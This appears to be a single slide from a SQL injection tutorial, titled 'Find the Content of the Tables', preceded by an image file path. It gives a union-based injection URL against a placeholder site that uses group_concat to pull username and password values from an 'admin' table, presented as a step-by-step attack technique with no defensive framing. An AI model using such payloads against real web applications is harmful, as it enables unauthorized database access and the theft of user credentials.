

# Find the Content of the Tables
Lets say there are 2 columns called username and password. In order to see what are inside of those columns we will use this query:
http://www.examplesite.com/index.php?id=-5 union select 1,2,group_concat(username,0x3a,password),4,5,6,7,8,9,10 from admin--